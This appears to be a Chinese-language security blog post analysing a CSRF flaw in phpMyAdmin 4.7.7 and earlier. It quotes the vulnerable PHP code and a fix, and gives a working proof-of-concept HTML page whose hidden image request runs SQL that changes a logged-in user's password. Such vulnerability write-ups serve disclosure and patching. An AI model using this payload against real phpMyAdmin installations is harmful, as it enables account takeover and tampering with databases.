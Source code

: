 ```yaml
---
title: "Phpmyadmin<= 4.7.7 Csrf"
date: 2018-12-20T08:35:07+08:00
categories: ['Vulnerability']
tags: ['phpmyadmin','csrf']
---
```


本周在Twitter上有一个较为热点的讨论话题，是有关phpMyAdmin <=4.7.7版本的一个CSRF漏洞，漏洞存在于`common.inc.php`中。我们一起来看下。
<!--more-->

#### 漏洞影响版本

phpMyAdmin <= 4.7.7

### 漏洞复现

本文用phpMyAdmin 4.7.6进行分析。

### 漏洞分析

直接看漏洞本质，主要在于两个点：

首先是位于`libraries/common.inc.php`中第375行到389行这一段代码：

```php
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    if (PMA_isValid($_POST['token'])) {
        $token_provided = true;
        $token_mismatch = ! @hash_equals($_SESSION[' PMA_token '], $_POST['token']);
    }

    if ($token_mismatch) {
        /**
         * We don't allow any POST operation parameters if the token is mismatched
         * or is not provided
         */
        $whitelist = array('ajax_request');
        PMA\libraries\Sanitize::removeRequestVars($whitelist);
    }
}
```

有个关键点：如果发送的请求是`GET`请求，就可以绕过对于参数的检测。

其次，第二个漏洞触发的关键点在`sql.php`第72行到76行：

```php
if (isset($_POST['bkm_fields']['bkm_sql_query'])) {
    $sql_query = $_POST['bkm_fields']['bkm_sql_query'];
} elseif (isset($_GET['sql_query'])) {
    $sql_query = $_GET['sql_query'];
}
```

可以看到这边可以直接接受外部`GET`请求的参数，在190行到199行处直接执行：

```php
if ($goto == 'sql.php') {
    $is_gotofile = false;
    $goto = 'sql.php' . URL::getCommon(
        array(
            'db' => $db,
            'table' => $table,
            'sql_query' => $sql_query
        )
    );
}
```

### 漏洞利用

如上所说，我们只需要构造一个页面该页面在用户点击的时候自动发一个GET请求就ok了。

我在漏洞利用这边举一个利用csrf修改当前用户密码的例子。

构造一个HTML：

```html
<html>
    <head>
        <title>poc</title>
    </head>

    <body>
        <p>POC TEST</p>
        <img src="http://localhost:8888/sql.php?db=mysql&table=user&sql_query=SET password = PASSWORD('vul_test')" style="display:none"/>

    </body>
</html>
```

之后诱导已经登录phpMyAdmin的用户访问，当前用户的密码就已经改为`vul_test`了。

### 修复方法

最简单的修补方式就是将`sql.php`中：

```php
if (isset($_POST['bkm_fields']['bkm_sql_query'])) {
    $sql_query = $_POST['bkm_fields']['bkm_sql_query'];
} elseif (isset($_GET['sql_query'])) {
    $sql_query = $_GET['sql_query'];
}
```

改成：

```php
if (isset($_POST['bkm_fields']['bkm_sql_query'])) {
    $sql_query = $_POST['bkm_fields']['bkm_sql_query'];
} elseif (isset($_POST['sql_query'])) {
    $sql_query = $_POST['sql_query'];
}
```

同样，直接更新到最新版是更好的方法。